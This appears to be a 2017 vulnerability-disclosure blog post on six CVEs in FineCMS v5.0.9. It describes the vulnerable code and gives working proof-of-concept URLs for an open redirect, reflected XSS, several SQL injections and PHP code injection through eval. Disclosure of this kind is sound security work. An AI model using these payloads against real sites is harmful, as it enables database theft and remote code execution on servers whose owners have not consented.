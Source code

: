 ```yaml
---
title: FineCMS multi vulnerablity before v5.0.9
date: 2017-07-20 18:55:48
tags:
- Blogs
- cve
- sqli
categories:
- Blogs
---
```



somedays ago, we found many vulerablity in FineCMS v5.0.9, contains remote php code execution、some sql injection、URL Redirector Abuse and Cross Site Scripting.

- CVE-2017-11581
- CVE-2017-11582
- CVE-2017-11583
- CVE-2017-11584
- CVE-2017-11585
- CVE-2017-11586

<!--more-->


# URL Redirector Abuse #

## Technical Description: ##

file `/finecms/dayrui/controllers/Weixin.php` function sync without any limit and can redirect any url.

## Poc ##

view website and login
```
http://finecms.com/index.php?c=weixin&m=sync&url=http://www.baidu.com
```

![image.png-73.3kB][1]


# Reflected XSS #

## Technical Description: ##

file `/finecms/dayrui/controllers/admin/Login.php` line17~line57
```
$this->template->assign('username', $this->input->post('username', TRUE));
$this->template->display('login.html');
```

when we input error username and password to login, the xssclean only filter the username startwith `'<'`, if we use dom xss，it will output without any validated, sanitised or output encoded.

## PoC ##

view website admin pages and login use username
```
" onmousemove=alert`1` a="1
```

when login fail and mousermove the input field.

![image.png-48.2kB][2]

# api.php Reflected XSS #

## Technical Description: ##

file `/finecms/dayrui/controllers/api.php` line145-165 data2 function

![image.png-182.3kB][9]

the function parameter output into pages without any validated, sanitised or output encoded when function not exist.

## PoC ##

```
http://finecms.com/index.php?c=api&m=data2&function=<script>alert(1)</script>p&format=php
```
![image.png-45.9kB][10]


# SQL injection in action=related catid parameter #

## Technical Description: ##

file `/finecms/dayrui/libraries/Template.php` function list_tag `action=related`, the `catid` parameter split by `','` and insert into sql query without any validated, sanitised, we can use it get all of the database.

## PoC ##

view the website and get the SYS_KEY from cooke

and payload is 
```
http://finecms.com/index.php?
c=api&m=data2&auth={md5(SYS_KEY)}&param=action=related%20module=news%20tag=1,2%20catid=1,12))%0aand%0a0%0aunion%0aselect%0a*%0afro
m(((((((((((((((((((select(user()))a)join(select(2))b)join(select(3))c)joi
n(select(4))d)join(select(5))e)join(select(6))f)join(select(7))g)join(sele
ct(8))h)join(select(9))i)join(select(10))j)join(select(11))k)join(select(1
2))l)join(select(13))m)join(select(14))n)join(select(15))o)join(select(16)
)p)join(select(17))q)join(select(18))x)%23
```

![image.png-65.2kB][3]

# SQL injection after limit via $system[num] parameter #

## Technical Description: ##

file `/finecms/dayrui/libraries/Template.php` function list_tag `action=tags` and `action=related`, the `$system['num']` parameter insert into sql query without any validated, sanitised.

Only 5.0.0<mysql<5.6.6 we can use analyse() to sql injection get data.

## PoC ##

view the website and get the SYS_KEY from cooke

and payload is 
```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=related%2
0catid=1%20tag=1,2%20num=1/**/PROCEDURE/**/analyse(extractvalue(rand(),con
cat(0x3a,version())),1)

http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=tags%2
0catid=1%20tag=1,2%20num=1/**/PROCEDURE/**/analyse(extractvalue(rand(),con
cat(0x3a,version())),1)
```

# SQL injection via $system[field] parameter #

## Technical Description: ##

file `/finecms/dayrui/libraries/Template.php` function list_tag `action=related`、`action=form`、`action=member`、`action=module` the `$system['field']` parameter insert into sql query without any validated, sanitised.

## PoC ##

```
http://finecms.com/index.php?c=api&m=data2&auth=820686a208b89d4c2f8b6f2622eff83e&param=action=related%20module=news%20tag=1%20field=1%0aunion%0aselect%0auser()%23
```
![image.png-40.6kB][4]

```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=form%20fo
rm=1%20field=1%0aunion%0aselect%0auser()%23
```
![image.png-42.4kB][5]

```
http://finecms.com/index.php?
c=api&m=data2&auth=202cb962ac59075b964b07152d234b70&param=action=member%20
field=1%0aunion%0aselect%0auser()%23
```
![image.png-30.6kB][6]

```
http://finecms.com/index.php?c=api&m=data2&auth=820686a208b89d4c2f8b6f2622eff83e&param=action=module%20form=1%20module=news%20field=1%0aunion%0aselect%0auser()%23
```
![image.png-34.3kB][7]

# remote php code execution #

## Technical Description: ##

file `/finecms/dayrui/libraries/Template.php` function list_tag `action=cache`, we can bypass some filter and insert parameter `$_param` into eval function and execute php code.

## PoC ##

```
http://finecms.com/index.php?c=api&m=data2&auth=820686a208b89d4c2f8b6f2622eff83e&param=action=cache%20name=MEMBER.1'];phpinfo();$a=['1
```

![image.png-68kB][8]


  [1]: http://static.zybuluo.com/LoRexxar/bypfg8rxkludnscn6k7i06bx/image.png
  [2]: http://static.zybuluo.com/LoRexxar/cta71z8vhzrdv5h9xgvyjirl/image.png
  [3]: http://static.zybuluo.com/LoRexxar/g3fahvxj1u1628qhm6dwrelp/image.png
  [4]: http://static.zybuluo.com/LoRexxar/g111thw2rkktq201cdcy0vgj/image.png
  [5]: http://static.zybuluo.com/LoRexxar/uayzgncag8bh36fg9d8ii3fq/image.png
  [6]: http://static.zybuluo.com/LoRexxar/1k1qcb858g9jvsozo40sy35t/image.png
  [7]: http://static.zybuluo.com/LoRexxar/yfo0vsmibo19y94ld7kf6t00/image.png
  [8]: http://static.zybuluo.com/LoRexxar/dyjq3635yf7ascfdxqmklyql/image.png
  [9]: http://static.zybuluo.com/LoRexxar/oxxa39k1ctnodcfdibrzk8mb/image.png
  [10]: http://static.zybuluo.com/LoRexxar/g6c9j510dmf41jqluwewf7lc/image.png